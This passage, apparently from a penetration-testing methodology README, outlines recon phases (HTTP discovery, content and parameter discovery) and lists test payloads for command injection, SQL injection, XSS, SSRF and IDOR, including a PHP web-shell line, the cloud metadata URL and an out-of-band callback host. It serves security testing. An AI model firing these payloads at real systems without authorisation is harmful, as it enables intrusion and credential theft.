 #### Phase 2: HTTP Service Discovery (180s)
- **Tools:** httpx, nuclei (tech detection)
- **Output:** live_hosts.txt, technologies.json
- **Purpose:** Identify live services and technologies

#### Phase 3: Content Discovery (600s)
- **Tools:** katana, gau, waybackurls, dirsearch
- **Output:** endpoints.txt, js_files.txt
- **Purpose:** Discover hidden content and endpoints

#### Phase 4: Parameter Discovery (240s)
- **Tools:** paramspider, arjun, x8
- **Output:** parameters.txt
- **Purpose:** Find hidden parameters for testing

### Vulnerability Test Scenarios

#### RCE Testing
- **Command Injection:** $(whoami), `id`, ;ls -la
- **Code Injection:** <?php system($_GET['cmd']); ?>
- **Template Injection:** {{7*7}}, ${7*7}, #{7*7}

#### SQL Injection Testing
- **Union-based:** ' UNION SELECT 1,2,3--, ' OR 1=1--
- **Boolean-based:** ' AND 1=1--, ' AND 1=2--
- **Time-based:** '; WAITFOR DELAY '00:00:05'--, ' AND SLEEP(5)--

#### XSS Testing
- **Reflected:** <script>alert(1)</script>, <img src=x onerror=alert(1)>
- **Stored:** <script>alert('XSS')</script>
- **DOM:** javascript:alert(1), #<script>alert(1)</script>

#### SSRF Testing
- **Internal Network:** http://127.0.0.1:80, http://localhost:22
- **Cloud Metadata:** http://169.254.169.254/latest/meta-data/
- **DNS Exfiltration:** http://burpcollaborator.net

#### IDOR Testing
- **Numeric:** id=1, id=2, id=../1
- **UUID:** uuid=00000000-0000-0000-0000-000000000001
- **Encoded:** id=MQ==, id=Mg== (base64 encoded)

### Business Logic Testing Framework

#### Authentication Bypass
- Password Reset Token Reuse
- JWT Algorithm Confusion
- Session Fixation
- OAuth Flow Manipulation
